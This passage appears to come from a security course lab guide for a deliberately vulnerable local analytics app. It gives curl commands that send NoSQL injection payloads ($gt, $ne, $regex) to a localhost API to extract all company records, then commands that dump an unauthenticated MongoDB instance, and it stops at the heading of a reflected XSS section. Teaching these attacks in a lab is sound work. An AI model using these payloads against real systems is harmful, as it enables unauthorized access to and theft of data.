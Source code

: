 ```bash
# Normal query
curl -s -X POST http://localhost:8080/api/analytics/query \
  -H "Content-Type: application/json" \
  -d '{"company_id": "COMP-10001"}' | jq '.'
```

#### NoSQL Injection with MongoDB Operators

```bash
# Extract all companies using $gt operator
curl -s -X POST http://localhost:8080/api/analytics/query \
  -H "Content-Type: application/json" \
  -d '{"filters": {"revenue": {"$gt": 0}}}' | jq '.'

# Using $ne (not equal) operator
curl -s -X POST http://localhost:8080/api/analytics/query \
  -H "Content-Type: application/json" \
  -d '{"filters": {"company_id": {"$ne": ""}}}' | jq '.'

# Using $regex for pattern matching
curl -s -X POST http://localhost:8080/api/analytics/query \
  -H "Content-Type: application/json" \
  -d '{"filters": {"industry": {"$regex": ".*"}}}' | jq '.'
```

### 2.5 MongoDB Direct Access

```bash
# Connect to MongoDB (no authentication required!)
mongosh mongodb://localhost:27017/intellimetrics

# Inside mongosh:
show dbs
use intellimetrics
show collections
db.companies.find()
db.companies.find().pretty()

# Count documents
db.companies.countDocuments()

# Find specific data
db.companies.find({industry: "SaaS"})

# Exit
exit
```

### 2.6 XSS Testing (Cours 08)

#### Reflected XSS
